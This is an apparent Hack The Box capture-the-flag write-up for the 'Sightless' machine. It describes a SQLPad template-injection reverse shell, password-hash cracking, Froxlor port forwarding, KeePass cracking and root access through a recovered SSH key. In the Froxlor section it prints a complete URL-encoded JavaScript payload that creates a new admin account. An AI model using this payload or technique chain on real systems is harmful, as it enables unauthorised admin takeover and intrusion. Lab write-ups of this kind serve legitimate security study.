










# Sightless - HTB Writeup



Sightless is an easy difficulty machine. While obtaining the user flag is straightforward through exploiting a common CVE, the root flag is significantly more complex, requiring exploitation of the Froxlor service, database discovery, and offline hash cracking.

## User Flag

### Initial Enumeration

An Nmap scan revealed HTTP, SSH, and FTP services. I started by exploring the HTTP page, but initial enumeration didn't reveal much. The main attack surface was the default landing page.

Scrolling through the page, I discovered a "Our Services" widget that leaked the services running on the machine. The first button led to a SQLPAD subdomain, while the other two services subtly foreshadowed the exploitation path: `sqlpad > user > froxlor > Database > root`.




### SQLPad Exploitation (CVE-2022-0944)

The SQLPad instance was running version 6.10.0, which is vulnerable to template injection (CVE-2022-0944). I found a public exploit on GitHub at https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944.

I set up a listener, ran the exploit, and received a reverse shell connection.

### Obtaining SSH Access

From the reverse shell, I extracted the password hash for user `michael` from the shadow file. After cracking it with hashcat, I was able to SSH into the host and retrieve the user flag.

## Root Flag

### Service Discovery

Classical privilege escalation approaches (like using linpeas or checking kernel versions) didn't work. However, using `netstat` for local service enumeration, I discovered Froxlor running on port 8080.

I forwarded this port via SSH and connected to the service.

**Note:** Add `admin.sightless.htb` to `/etc/hosts` for the service to function correctly.

### Froxlor Authentication Bypass (Blind Template Injection)

The Froxlor login page was vulnerable to blind XSS. The vulnerability allowed me to create a new admin user by sending malicious code through the login form.

I obtained the payload from https://github.com/advisories/GHSA-x525-54hf-xr53 and modified it with the correct address and URL encoding:

```
admin%7B%7B$emit.constructor%60function+b()%7Bvar+metaTag%253ddocument.querySelector('meta%5Bname%253d%22csrf-token%22%5D')%253bvar+csrfToken%253dmetaTag.getAttribute('content')%253bvar+xhr%253dnew+XMLHttpRequest()%253bvar+url%253d%22http%253a//admin.sightless.htb:8080/admin_admins.php%22%253bvar+params%253d%22new_loginname%253dabcd%2526admin_password%253dAbcd%2540%25401234%2526admin_password_suggestion%253dmgphdKecOu%2526def_language%253den%2526api_allowed%253d0%2526api_allowed%253d1%2526name%253dAbcd%2526email%253dyldrmtest%2540gmail.com%2526custom_notes%253d%2526custom_notes_show%253d0%2526ipaddress%253d-1%2526change_serversettings%253d0%2526change_serversettings%253d1%2526customers%253d0%2526customers_ul%253d1%2526customers_see_all%253d0%2526customers_see_all%253d1%2526domains%253d0%2526domains_ul%253d1%2526caneditphpsettings%253d0%2526caneditphpsettings%253d1%2526diskspace%253d0%2526diskspace_ul%253d1%2526traffic%253d0%2526traffic_ul%253d1%2526subdomains%253d0%2526subdomains_ul%253d1%2526emails%253d0%2526emails_ul%253d1%2526email_accounts%253d0%2526email_accounts_ul%253d1%2526email_forwarders%253d0%2526email_forwarders_ul%253d1%2526ftps%253d0%2526ftps_ul%253d1%2526mysqls%253d0%2526mysqls_ul%253d1%2526csrf_token%253d%22%252bcsrfToken%252b%22%2526page%253dadmins%2526action%253dadd%2526send%253dsend%22%253bxhr.open(%22POST%22,url,true)%253bxhr.setRequestHeader(%22Content-type%22,%22application/x-www-form-urlencoded%22)%253balert(%22Your+Froxlor+Application+has+been+completely+Hacked%22)%253bxhr.send(params)%7D%253ba%253db()%60()%7D%7D
```



I intercepted the request in Burp Suite and received a 302 response, confirming successful payload execution. The new admin credentials created were:
- **Username:** `abcd`
- **Password:** `Abcd@@1234`

### FTP Access and Database Discovery

After logging into the Froxlor admin panel with these credentials, I discovered the `web1` user and changed his password. This allowed me to connect to FTP using FileZilla with the new credentials.

In the FTP directory, I found a `database.kdb` file and downloaded it.




### Database Cracking

The KeePass database was encrypted and inaccessible without the correct password. I used `keepass2john` to convert the database into a hash format, then cracked it using John the Ripper.




### Root Access

After cracking the database password, I used `kpcli` to access the KeePass database. Inside, I found SSH backup information including an `id_rsa` private key. While the stored password didn't work, the RSA key allowed me to authenticate as root.







I downloaded the `id_rsa` file, formatted it correctly using `dos2unix` to handle line endings, and successfully connected as root to obtain the final flag.


